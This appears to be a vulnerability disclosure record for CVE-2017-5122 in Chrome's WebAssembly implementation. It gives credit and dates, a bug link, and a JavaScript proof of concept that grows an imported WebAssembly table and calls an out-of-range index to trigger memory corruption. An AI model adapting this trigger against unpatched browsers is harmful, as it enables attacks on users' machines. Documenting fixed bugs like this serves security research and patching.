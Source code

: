 # CVE-2017-5122

- Report: Aug 2017
- Fix: Aug 2017
- Credit: Choongwoo Han of Naver Corporation

## PoC

```javascript
var builder = new WasmModuleBuilder();
builder.addImportedTable("x", "table", 1, 10000000);
builder.addFunction("main", kSig_i_i)
  .addBody([
    kExprI32Const, 0,
    kExprGetLocal, 0,
    kExprCallIndirect, 0, kTableZero])
  .exportAs("main");
let module = new WebAssembly.Module(builder.toBuffer());
let table = new WebAssembly.Table({element: "anyfunc",
  initial: 1, maximum:1000000});
let instance = new WebAssembly.Instance(module, {x: {table:table}});

for (let i = 0; i < 4; i++)
  table.grow(99900);

let instance2 = new WebAssembly.Instance(module, {x: {table:table}});

instance2.exports.main(0x313131/8);
```

## Reference

- [Issue](https://crbug.com/752423)
